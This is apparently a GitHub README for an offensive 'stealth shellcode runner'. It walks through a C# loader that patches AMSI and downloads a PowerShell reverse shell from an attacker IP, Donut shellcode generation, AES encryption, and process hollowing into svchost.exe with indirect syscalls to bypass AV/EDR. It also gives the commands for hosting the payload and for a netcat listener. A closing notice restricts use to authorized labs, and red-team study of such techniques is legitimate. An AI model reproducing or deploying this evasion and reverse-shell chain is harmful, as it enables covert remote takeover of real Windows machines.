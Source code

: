 # Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **full indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use the provided Python script to AES-encrypt the generated shellcode. It also formats the output into C# arrays:

```bash
python3 Aes_encryption.py
```

Paste the output into the `ShellCode_Runner.cs` file:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🧠 Step 4 - Execute with Process Hollowing + Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory using **indirect syscall**
- Decrypt and inject the AES shellcode into the target process
- Change memory protection and launch a remote thread using **indirect syscall**

✅ All key syscalls (`NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are executed from manually copied stubs placed in memory, effectively bypassing userland hooks set by AV/EDR.

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell should be saved as `shell.ps1`.

Then serve the file using Python’s built-in HTTP server:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

To catch the reverse shell, start a listener using `netcat` and `rlwrap` for a better terminal experience:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is patched silently via .NET Reflection
- PowerShell payload is downloaded and executed in memory
- Shellcode is encrypted with AES and executed via **fully indirect syscalls**
- Process is created with PPID spoofing
- Tested successfully in OSEP lab environments with Windows Defender enabled

---

**⚠️ Legal Notice:**  
This tool is intended for educational purposes and authorized penetration testing only.  
Do **not** use this code outside of lab environments or without proper authorization.
